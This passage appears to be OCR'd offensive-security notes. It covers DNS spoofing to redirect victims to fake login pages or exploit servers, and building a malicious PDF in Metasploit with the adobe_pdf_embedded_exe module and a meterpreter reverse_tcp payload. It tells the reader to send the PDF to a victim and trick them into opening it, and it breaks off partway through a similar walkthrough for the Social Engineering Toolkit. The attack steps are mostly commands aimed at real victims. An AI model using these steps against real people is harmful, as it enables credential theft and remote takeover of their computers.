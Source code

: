                 - If on the same network as the victim, launch a DNS spoofing attack.
                - Replace the IP address of the legitimate site (e.g., [facebook.com](http://facebook.com/)) with the IP of the fake log-in page.
                - The victim logs into the fake page when attempting to visit the legitimate site.
            3. **Redirecting to Malicious Webserver**:
                - Perform DNS spoofing to redirect the victim to a malicious webserver.
                - Use browser exploits on the malicious webserver to compromise the victim's browser.
        - Adobe PDF Embedded EXE Exploit
            - A popular Metasploit exploit embedding an executable in a PDF to exploit vulnerabilities in older Adobe Reader versions.
            - Steps to Create a Malicious PDF with Metasploit
                1. **Launch Metasploit**:
                    
                    ```
                    msfconsole
                    ```
                    
                2. **Use the Exploit**:
                    
                    ```
                    use exploit/windows/fileformat/adobe_pdf_embedded_exe
                    ```
                    
                3. **Show Options**:
                    
                    ```
                    show options
                    ```
                    
                    - Use a predefined or custom PDF file for embedding.
                4. **Set Launch Message** (optional):
                    
                    ```
                    set LAUNCH_Message <message>
                    ```
                    
                5. **Choose Payload**:
                    
                    ```
                    set payload windows/meterpreter/reverse_tcp
                    ```
                    
                    - Set LHOST and LPORT.
                6. **Generate the Malicious PDF**:
                    
                    ```
                    exploit
                    ```
                    
                    - PDF is saved in `/root/.msf4/local/`.
                
                Finally, send the malicious PDF to the victim and trick them into executing it to gain control over their system.
                
    - Social Engineering Toolkit (SET)
        - Steps to Create a Malicious PDF with SET
            1. **Navigate to Social Engineering Attack Vectors**:
                - Launch SET and navigate to the "Social Engineering Attack Vectors" menu.
                - Press `3` to enter the “Infectious Media Generator” menu.
            2. **Choose the Type of Exploit**:
                - Select the type of exploit by pressing `1` for "Fileformat exploits."
            3. **Enter Reverse Connection IP**:
                - Input the IP address of your machine (BackTrack box).
            4. **Choose the Exploit Type**:
                - Select the “Adobe PDF Embedded EXE” exploit.
            5. **Use Own PDF or Template**:
                - Choose whether to use your own PDF or a template available in SET.
            6. **Select Payload**:
                - Stick with the default payload “Windows/shell/reverse_tcp”.
            7. **Enter Payload Listener IP and Port**: